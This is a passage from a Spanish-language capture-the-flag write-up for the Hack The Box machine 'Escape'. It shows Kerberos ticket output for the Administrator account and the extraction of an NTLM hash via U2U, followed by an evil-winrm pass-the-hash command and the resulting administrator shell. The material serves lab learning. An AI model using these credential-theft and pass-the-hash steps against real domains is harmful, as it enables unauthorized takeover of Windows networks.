 ```bash
      v5GuItxG0i159gG+iQPw6mCYNkIWGwDyycQRIo4leF8idHejFx2+2BICXdSN4Ia9tgwUOQTxdAHrRVj7
      5v4Bs3Mu/MHd6DV2ryL7eQX+DuVpCrofkfVcrugHImGsT35zbxx92ZmDFPVKZzpwiOVKp5XEucE+v7LS
      av0ZJoZ6Dmcqx47LSeDp2qOB1TCB0qADAgEAooHKBIHHfYHEMIHBoIG+MIG7MIG4oBswGaADAgEXoRIE
      ENbAKIPMGDLZ7CTGwLWegTShDBsKU0VRVUVMLkhUQqIaMBigAwIBAaERMA8bDUFkbWluaXN0cmF0b3Kj
      BwMFAADhAAClERgPMjAyMzA4MDMxNTQ0NDdaphEYDzIwMjMwODA0MDE0NDQ3WqcRGA8yMDIzMDgxMDE1
      NDQ0N1qoDBsKU0VRVUVMLkhUQqkfMB2gAwIBAqEWMBQbBmtyYnRndBsKc2VxdWVsLmh0Yg==

  ServiceName              :  krbtgt/sequel.htb
  ServiceRealm             :  SEQUEL.HTB
  UserName                 :  Administrator
  UserRealm                :  SEQUEL.HTB
  StartTime                :  8/3/2023 8:44:47 AM
  EndTime                  :  8/3/2023 6:44:47 PM
  RenewTill                :  8/10/2023 8:44:47 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable
  KeyType                  :  rc4_hmac
  Base64(key)              :  1sAog8wYMtnsJMbAtZ6BNA==
  ASREP (key)              :  27415D6D6D2DB085B6A6BCBC5EFC7A5E

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : A52F78E4C751E5F5E17E1E9F3E58F4EE
```
ahora con este hash NTLM podemos autenticarnos con evil-winrm como Administrator 

```bash
evil-winrm -i 10.10.11.202 -u 'Administrator' -H 'A52F78E4C751E5F5E17E1E9F3E58F4EE'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
```
![](/assets/img/commons/Escape/cap11.png)

Y otra máquina Pwneada:D!!
